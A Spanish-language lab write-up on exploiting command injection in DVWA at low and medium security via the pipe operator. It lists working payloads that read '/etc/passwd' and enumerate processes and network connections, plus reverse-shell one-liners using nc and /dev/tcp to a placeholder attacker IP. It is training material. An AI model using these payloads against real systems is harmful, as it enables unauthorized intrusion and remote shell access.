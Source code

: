 # DVWA Command Injecttion

## DVWA Command Injection - Inyección con `|` y Security Low/Medium.

### Objetivo:
Inyectar comandos del sistema después de un ping usando el operador `|`.

---

Para ello vamos a introducir hostname o 127.0.0.1 para que haga ping a nuestro sistema, como vemos en la siguiente captura:

Primer Intento:

![Primer Intento](./Imagenes/Primera_pagina_low.png)

Y obtendremos el siguiente Resultado:

![Resultado](./Imagenes/Resultado_primer_intento.png)

Ahora aplicando `|` la tuberia vamos a solicitar los archivos del directorio con un ls quedando asi el comando:

```
bash
hostname | ls
```
y podremos ver el resultado positivo de la injeccion:

![Resultado de la injeccion](./Imagenes/Resultado_low.png)

---

Utilizando la misma tecnica podemos sacar informacion al nivel medio de seguridad.

Vamos a ver con la segurida en nivel medio.

Pagina 

Primera pagina en medium:

![Primera pagina en medium](./Imagenes/172-0-0-1_Resultado_medium.png)

Resultado en medium:

![Resultado_medium](./Imagenes/injeccion_en_medium.png)

### Payloads básicos

- `127.0.0.1 | whoami`
- `127.0.0.1 | id`
- `127.0.0.1 | uname -a`
- `127.0.0.1 | hostname`
- `127.0.0.1 | cat /etc/passwd`
- `127.0.0.1 | ls -la`
- `127.0.0.1 | ps aux`
- `127.0.0.1 | netstat -anp`

---

### Payloads para obtener una shell inversa (reverse shell)

(Suponiendo que tienes un listener en tu máquina con: `nc -nlvp 4444`)

- `127.0.0.1 | nc YOUR_IP 4444 -e /bin/bash`
- `127.0.0.1 | bash -i >& /dev/tcp/YOUR_IP/4444 0>&1`

**Nota:** Asegúrate de reemplazar `YOUR_IP` por tu dirección IP.

---